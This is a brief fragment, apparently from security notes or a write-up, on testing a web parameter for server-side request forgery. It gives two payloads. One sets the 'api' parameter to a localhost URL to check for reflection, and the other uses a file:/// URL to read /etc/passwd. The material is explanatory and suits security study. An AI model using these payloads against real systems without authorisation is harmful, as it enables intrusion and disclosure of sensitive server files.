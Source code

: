 to test for SSRF we can use this: 

api=http://127.0.0.1/index.php and see if it reflects the index page 



Exploitation: 

sometimes we can do a file read exploitation: 

api=file:///etc/passwd